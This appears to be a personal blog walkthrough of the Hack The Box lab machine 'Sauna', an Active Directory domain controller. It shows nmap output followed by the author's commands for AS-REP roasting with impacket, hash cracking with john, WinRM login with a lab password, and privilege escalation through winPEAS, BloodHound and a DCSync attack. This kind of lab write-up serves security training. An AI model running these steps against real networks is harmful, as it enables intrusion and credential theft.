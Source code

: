 ```yaml
---
layout: post
title:  htb-sauna
category: walkthrough
date:   2020-07-28 05:00:00
---
```


# ![sauna](/assets/img/sauna/sauna.png)  
Sauna is a easy machine created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858)

# Enum  
  
###  nmap
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-28 02:53 -03  
>Nmap scan report for 10.10.10.175  
>Host is up (0.21s latency).  
>Not shown: 5920 filtered ports  
>PORT     STATE SERVICE       VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP: 
>|     version  
>|_    bind  
>80/tcp   open  http          Microsoft IIS httpd 10.0  
>| http-methods: 
>|_  Potentially risky methods: TRACE  
>|_http-server-header: Microsoft-IIS/10.0  
>|_http-title: Egotistical Bank :: Home  
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-28 12:57:59Z)  
>135/tcp  open  msrpc         Microsoft Windows RPC  
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds?  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
>|_http-server-header: Microsoft-HTTPAPI/2.0  
>|_http-title: Not Found  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=7/28%Time=5F1FBD97%P=x86\_64-pc-linux-gnu%r(DNSV  
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\  
>SF:x04bind\0\0\x10\0\x03");  
>Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows  
  3268
>Host script results:  
>|_clock-skew: mean: 7h03m31s, deviation: 0s, median: 7h03m31s  
>| smb2-security-mode: 
>|   2.02: 
>|_    Message signing enabled and required  
>| smb2-time: 
>|   date: 2020-07-28 10:00:17  
>|_  start_date: N/A  
  
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 308.65 seconds  
  
  
nmap output show me the domain egotistical-bank.local, this is the domain controller.  
nmap also show kerberos 88, IIS 80, ldap 389 and 3268, and 5985 using http, this port usually is WinRM.  
  
First thing I thought was [Kerberoasting](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)  
I used [impacket](https://github.com/ifconfig-me/impacket)'s GetADUser.py, but got nothing...  
  
In port 80 I got this page  
![index](/assets/img/sauna/sauna1.png)  
  
Searching something usefull I found usernames on page "About Us"  
![users](/assets/img/sauna/sauna2.png)  
  
I creted a wordlist with this names, and some possibilities...  
>f.smith  
>fsmith  
>h.bear  
>hbear  
>s.coins  
>scoins  
>btaylor  
>b.taylor  
>s.driver  
>sdriver  
  
My wordlist have a lot more, but there's no need of all...  
  
Now I can use impacket's GetNPUsers.py  
  
  
### Exploit
./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash  

![fsmithHash](/assets/img/sauna/sauna3.png)  

With the brute force of my friend john I cracked this hash  
  
john -w /usr/share/wordlists/rockyou.txt hash  
  
![passwd](/assets/img/sauna/sauna4.png)
  
The part I like most in attacking windows, is the  [evil](https://github.com/Hackplayers/evil-winrm) part
  
./evil-winrm.rb -i 10.10.10.175 -p Thestrokes23 -u fsmith  
  
![evilLogin](/assets/img/sauna/sauna5.png)  
  
### Priv Esc  
  
To privelige escalation in windows the first thing I use is [winPEAS.bat](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat)  
  
Uploaded winPEAS.bat with upload command of evil-winrm and executed it  
winPEAS spits a lot of informations about everything in the machine  
and found a pass for other user  
![svc](/assets/img/sauna/sauna6.png)  
  
Logged in as svc\_loanmgr and invoked the [hound](https://github.com/fox-it/BloodHound.py)  
  
![bloodHound](/assets/img/sauna/sauna7.png)  
  
ziped the json files and sent it to bloodhound  
  
As the hound says, svc\_loanmgr is connected to egotistical-bank with getChangesAll and should try a DCSYnc atack..  
  
![HoundHelp](/assets/img/sauna/sauna8.png)  
  
Let's get back to impacket  
  
![hashdump](/assets/img/sauna/sauna9.png)  
  
And evil again  

![evilAdmin](/assets/img/sauna/sauna10.png)
